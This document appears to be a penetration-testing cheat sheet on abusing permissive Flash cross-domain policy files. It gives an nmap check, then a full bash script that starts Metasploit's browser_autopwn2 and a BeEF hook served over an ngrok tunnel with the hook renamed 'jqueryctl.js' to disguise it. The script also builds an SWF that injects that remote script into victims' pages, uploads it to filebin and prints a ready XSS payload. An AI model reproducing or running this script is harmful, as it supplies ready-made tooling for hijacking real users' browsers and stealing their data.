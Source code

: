 # RIA Cross Domain Policy

## Check List

* [ ] Review and validate the policy files.

## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
CrossDomain.xml & clientaccesspolicy.xml file
{% endstep %}

{% step %}
Check and identify the presence of crossdomain.xml & clientaccesspolicy.xml files on the target using Nmap command.
{% endstep %}

{% step %}
If the files exist, we run them using the next command, which is a script related to BeEF
{% endstep %}

{% step %}
Vulnerability Conditions The `crossdomain.xml` file is overly permissive (`<allow-access-from domain="*">`) Sensitive data or actions are accessible on the target domain
{% endstep %}

{% step %}
Exploit Modify the ActionScript to fetch sensitive data from the target domain and send it to a malicious server Compile the ActionScript into an SWF file
{% endstep %}

{% step %}
Capture Data Use a script to capture stolen data from the victim when they load the malicious SWF Direct the victim to a page with the malicious SWF, ensuring they are logged into the target site Review the data captured on the malicious server for sensitive information
{% endstep %}
{% endstepper %}

### Check Policy Files Weakness

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Check crossdomain.xml & clientaccesspolicy.xml
{% endhint %}

```bash
nmap -p 80,443 \
     -sS -sV --mtu 5000 \
     --script http-cross-domain-policy \
     --script-args http-cross-domain-policy.domain-lookup=true $WEBSITE
```

### [BeEF](https://github.com/beefproject/beef) (SWF)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beefer.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    printf "${GREEN}[*] sudo ./beef-csp-bypass.sh\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Run Ngrok
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y;use auxiliary/server/browser_autopwn2;set LHOST $WAN;set URIPATH /pwn;run -z" >/dev/null 2>&1 &
sleep 1
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi
printf "${GREEN}[*] BeEF with new configuration...${RESET}\n"

# Start BeEF XSS framework
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Create the SWF payload
cat <<EOF > /tmp/beef.as
package {
    import flash.display.MovieClip;
    import flash.net.URLRequest;
    import flash.net.navigateToURL;

    public class beef extends MovieClip {
        public function beef() {
            var request:URLRequest = new URLRequest("javascript:function myFunction(){var x = document.createElement('SCRIPT');x.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(x);};myFunction();");
            navigateToURL(request);
        }
    }
}
EOF
/opt/flex-sdk/bin/mxmlc /tmp/beef.as -output /tmp/logo.swf &>/dev/null &
rm -f /tmp/beef.as
printf "${GREEN}[*] SWF payload generated successfully...${RESET}\n"

# Upload to Filebin and Display Payload
bin_id=$(curl -s https://filebin.net | grep -oP 'href="https://filebin.net/(\w+)"' | sed -E 's/href="https:\/\/filebin.net\/([a-zA-Z0-9]+)"/\1/')
curl -s -X POST "https://filebin.net/${bin_id}/logo.swf" -H "Content-Type: application/x-shockwave-flash" --data-binary "@/tmp/logo.swf"
rm -f /tmp/logo.swf
clear
printf "\n\n"
printf "${CYAN}XSS Payload:${RESET}\n"
printf "\n"
printf "${YELLOW}<object type=\"application/x-shockwave-flash\" data=\"https://filebin.net/${bin_id}/logo.swf\"><param name=\"movie\" value=\"https://filebin.net/${bin_id}/logo.swf\"></object>"
printf "\n"
printf "${CYAN}BeEF Panel: https://${NGHOST}/ui/panel${RESET}\n"
printf "${CYAN}BeEF USER: unk9vvn${RESET}\n"
printf "${CYAN}BeEF PASS: 00980098${RESET}\n"
printf "\n"
printf "${GREEN}BeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute${RESET}\n"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beefer.sh;sudo ./beefer.sh
```
